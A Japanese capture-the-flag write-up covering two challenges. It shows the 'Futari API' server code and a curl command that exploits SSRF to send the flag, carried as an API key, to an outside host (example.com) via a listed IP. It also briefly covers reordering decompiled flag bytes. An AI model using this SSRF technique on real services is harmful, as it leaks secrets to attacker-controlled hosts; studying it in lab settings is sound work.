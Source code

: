 ## Web

### Futari API

```ts
const FLAG: string = Deno.env.get("FLAG") || "IERAE{dummy}";
const USER_SEARCH_API: string = Deno.env.get("USER_SEARCH_API") ||
  "http://user-search:3000";
const PORT: number = parseInt(Deno.env.get("PORT") || "3000");

async function searchUser(user: string, userSearchAPI: string) {
  const uri = new URL(`${user}?apiKey=${FLAG}`, userSearchAPI);
  return await fetch(uri);
}

async function handler(req: Request): Promise<Response> {
  const url = new URL(req.url);
  switch (url.pathname) {
    case "/search": {
      const user = url.searchParams.get("user") || "";
      return await searchUser(user, USER_SEARCH_API);
    }
    default:
      return new Response("Not found.");
  }
}

Deno.serve({ port: PORT, handler });
```

これは frontend.ts で，user-search.ts にリクエストを送る．
細かい機能はよくて，frontend.ts が内部のサーバにリクエストを送る際に apiKey を付与しているが，この内容が FLAG になっている．
これを露出できればいい．
SSRF が通る．
```curl 'http://34.81.219.110:3000/search?user=http://example.com'```

## rev

### Assignment

Ghidra でデコンパイルすると以下のような感じ

```C
flag[28] = 0x33;
flag[1] = 0x45;
flag[2] = 0x52;
flag[20] = 0x72;
...
```

というように，ランダムな順番で flag を構成している．
これを元に戻せばいい．
復元には chatGPT を使った．
